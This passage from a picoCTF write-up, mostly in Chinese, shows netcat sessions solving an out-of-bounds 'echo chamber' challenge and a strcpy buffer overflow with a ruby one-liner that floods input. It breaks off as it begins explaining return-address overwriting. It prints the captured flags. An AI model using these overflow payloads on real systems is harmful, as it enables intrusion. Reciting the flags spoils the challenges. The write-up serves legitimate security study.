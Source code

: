 ```shell
> nc saturn.picoctf.net 49700
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
2
2
No data yet
1
1
Please enter your data:
anything
anything
Please enter the length of your data:
6
6
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_9F68795F}
```

解决问题.

### buffer overflow 0 & 1 & 2 & 3
栈溢出的问题, 其实不是很难. 

#### buffer overflow 0
看题目名字就知道要溢出, 看代码里面有一个`sigsegv_handler`函数, 
还有一个`strcpy`函数, 可见应该是`strcpy`函数在拷贝字符串的时候没有
限制, 导致拷贝的东西溢出了, 这样就会触发`SIGSEGV`信号, 
导致调用`sigsegv_handler`函数. 

(注: 关于信号的话, 可以参考`man signal`)

解决问题: 

```shell
> nc saturn.picoctf.net 51110
Input: test
The program will exit now
> ruby -e ' print "Lucky_Magic" * 10 ' | nc saturn.picoctf.net 51110
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
```

就这样.

#### buffer overflow 1
只要修改最后的ret地址就可以实现任意地址跳转了, 
好的, 用gdb查看跳转的位置: 
